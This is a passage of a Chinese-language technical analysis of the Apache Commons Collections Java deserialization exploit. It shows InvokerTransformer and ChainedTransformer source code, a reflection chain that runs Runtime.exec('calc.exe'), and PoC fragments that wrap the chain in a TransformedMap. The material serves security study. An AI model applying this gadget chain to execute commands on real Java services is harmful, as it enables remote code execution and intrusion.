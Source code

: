 ```java
    private final String iMethodName;
    private final Class[] iParamTypes;
    private final Object[] iArgs;

    public InvokerTransformer(String methodName, Class[] paramTypes, Object[] args) {
        this.iMethodName = methodName;
        this.iParamTypes = paramTypes;
        this.iArgs = args;
    }

    public Object transform(Object input) {
        if (input == null) {
            return null;
        } else {
            try {
                Class cls = input.getClass();
                Method method = cls.getMethod(this.iMethodName, this.iParamTypes);
                return method.invoke(input, this.iArgs);
            ...
            }
        }
    }

```


那为啥PoC是一个数组那？在于ChainedTransformer可以把数组中transformer对象串起来，数组中的前元素作为下一个元素的对象，达成如下效果。
`Class.forName("java.lang.Runtime").getMethod("getRuntime").invoke(Class.forName("java.lang.Runtime")).exec("calc.exe");`

```java
public class ChainedTransformer implements Transformer, Serializable {
    static final long serialVersionUID = 3514945074733160196L;
    private final Transformer[] iTransformers;

    public ChainedTransformer(Transformer[] transformers) {
        super();
        iTransformers = transformers;
    }
    ...
    //把数组中对象串起来，数组中的前元素作为下一个元素的对象
    public Object transform(Object object) {
        for(int i = 0; i < this.iTransformers.length; ++i) {
            object = this.iTransformers[i].transform(object);
        }

        return object;
    }
```

### 2. 封装成Map 
我们通过ChainedTransformer达到命令执行的效果，为了能被反序列操作触发，需要封装在Map中。通过我们得到的是ChainedTransformer的一个转换链，TransformedMap类提供将map和转换链绑定的构造函数。
但是为什么封装Map就会触发执行，在调试分析会详细说明。           
对应PoC代码：    
```java
Map innermap = new HashMap();
innermap.put("value", "re111");
Map outmap = TransformedMap.decorate(innermap, null, transformerChain);
```
 